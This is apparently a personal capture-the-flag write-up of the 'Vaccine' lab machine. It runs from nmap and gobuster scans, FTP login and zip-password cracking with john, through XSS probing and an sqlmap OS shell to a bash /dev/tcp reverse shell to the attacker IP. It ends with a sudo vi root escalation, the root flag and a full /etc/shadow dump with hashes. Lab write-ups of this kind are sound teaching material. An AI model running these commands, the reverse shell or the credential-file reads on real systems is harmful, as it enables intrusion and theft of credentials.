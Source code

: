 # Notes
starting ip: 10.10.10.46

## Eumeration
`nmap -sC -sV -oA vaccine_nmap -Pn 10.10.10.46`
`gobuster dir -u http://10.10.10.46/ -w /usr/share/dirb/wordlists/common.txt > gobuster.txt`

Found FTP port using nmap on port 21

can log in to ftp using ftpuser : mc@F1l3ZilL4 which you find from oopsie(the machine before this one) in an xml file

Logged into the ftp server and find a file called backup.zip

`get backup.zip`


## Cracking file
Going to need to crack the password on the file, so `zip2john backup.zip > zip.hash` which gives a hash file

to crack the password on the file use `john zip.hash` and the file will be cracked
`backup.zip:741852963::backup.zip:style.css, index.php:backup.zip` -> output

The password is: 741852963 

## Looking at index.php

```php
if($_POST['username'] === 'admin' && md5($_POST['password']) === "2cb42f8734ea607eefed3b70af13bbd3")
```

so the username is password and you need to find the password that equals "2cb42f8734ea607eefed3b70af13bbd3" when md5 hash'd which can be done from the browser

password is: qwerty789

## On Website
http://10.10.10.46/dashboard.php?search='/><script>alert(1)</script> -> shows you there is no sanatization

now want to use sql map to see what you can get

## SQL map

`sqlmap http://10.10.10.46/dashboard.php?search=whatever --cookie="PHPSESSID=pj9mivktap01hq7qg0tev7i1jb"` works so try to get shell

`sqlmap http://10.10.10.46/dashboard.php?search=whatever --cookie="PHPSESSID=pj9mivktap01hq7qg0tev7i1jb" --os-shell` -> gets shell

## Get reverse shell
start `nc -lvnp 9001`

ifconfig tun0 to get ip

in the sqlmap shell type the following to get shell `bash -c 'bash -i >& /dev/tcp/<ip>/9001 0>&1'` bash -c 'bash -i >& /dev/tcp/10.10.14.3/9001 0>&1'

got shell

`export TERM=xterm`

## When in shell
`cd /var/www/html && cat dashboard.php`

find this in dashboard.php for postgreSQL `$conn = pg_connect("host=localhost port=5432 dbname=carsdb user=postgres password=P@s5w0rd!");`

## Connect with ssh

`ssh <ip>@postgres` and password is P@s5w0rd!

`sudo -l` and use password

find you can execute a file as sudo with vi

`sudo !/bin/bash -P` for root

`cd /root` and get flag: dd6e058e814260bc70e9bbdef2715849

## After flags

`cat /etc/shadow` -> found this (all the passwords)-> `root:$6$mJFt2hPm87QQnTTe$iQR6I/fnw56HY7KABpVORJ4uabDHfWILJLAj0PTswex.epHHMhcRAoR08J3MrHPYu3SFd67DoUdaLSFYxwE4/1:18296:0:99999:7:::
daemon:*:18186:0:99999:7:::
bin:*:18186:0:99999:7:::
sys:*:18186:0:99999:7:::
sync:*:18186:0:99999:7:::
games:*:18186:0:99999:7:::
man:*:18186:0:99999:7:::
lp:*:18186:0:99999:7:::
mail:*:18186:0:99999:7:::
news:*:18186:0:99999:7:::
uucp:*:18186:0:99999:7:::
proxy:*:18186:0:99999:7:::
www-data:*:18186:0:99999:7:::
backup:*:18186:0:99999:7:::
list:*:18186:0:99999:7:::
irc:*:18186:0:99999:7:::
gnats:*:18186:0:99999:7:::
nobody:*:18186:0:99999:7:::
systemd-timesync:*:18186:0:99999:7:::
systemd-network:*:18186:0:99999:7:::
systemd-resolve:*:18186:0:99999:7:::
messagebus:*:18186:0:99999:7:::
syslog:*:18186:0:99999:7:::
_apt:*:18186:0:99999:7:::
uuidd:*:18186:0:99999:7:::
tcpdump:*:18186:0:99999:7:::
landscape:*:18186:0:99999:7:::
pollinate:*:18186:0:99999:7:::
sshd:*:18295:0:99999:7:::
systemd-coredump:!!:18295::::::
simon:$6$HmDDB89I3xFM2mJe$DNf5vRLvByV6U4VND/p2VfYYX8/s5apU3j3gk/2Y7A6Q8adNfDKHBFhw71i1gJ7kRUO7rqFX90h3sp4O6K1p20:18295:0:99999:7:::
lxd:!:18295::::::
postgres:$6$mbGAgq2J4ZtuYuWl$9GBi2iuMl6Io6GaxOtiWcbpg2CM6QxWNgSexoc97osVx3TQFv6SEld/339z0fyrgDxQBQxbUQDa6PkVeahpO3.:18296:0:99999:7:::
ftp:*:18295:0:99999:7:::
ftpuser:$6$vbS2lINzTKdW.wYi$1Xxvomaxm3u.su5B0IompTFJJS8Ax1V0bgYRDBjgwick/d6WITZzq44MXeFbKl8RmsF3TzyN/ey9clfhW8iE0/:18295:0:99999:7::: `